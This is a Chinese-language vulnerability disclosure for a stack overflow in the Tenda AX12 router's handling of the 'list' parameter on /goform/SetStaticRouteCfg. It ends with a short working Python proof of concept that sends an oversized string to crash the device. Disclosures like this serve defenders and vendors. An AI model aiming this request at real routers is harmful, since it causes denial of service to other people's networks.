


# 漏洞描述

设备：Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

漏洞类型：栈溢出

攻击效果：拒绝服务

# 漏洞成因

该漏洞为发生在`sub_42E328`函数中的栈溢出漏洞，该函数处理`/goform/SetStaticRouteCfg`下的post请求

首先，该函数调用了`sub_42E030`函数



`sub_42E030`函数中：



v3直接来源于http数据包中的list参数，随后直接调用sscanf函数对list进行切割，而在这一过程中没用任何的长度限制与安全检查

由此攻击者可以通过一串长list造成栈溢出，实现拒绝服务攻击

# POC

拒绝服务的poc：

```python
import requests

url = "http://192.168.0.1/goform/SetStaticRouteCfg"
list_data = 'a'*0x1000 + '~'

r = requests.post(url, data={'list': list_data})
print(r.content)
```

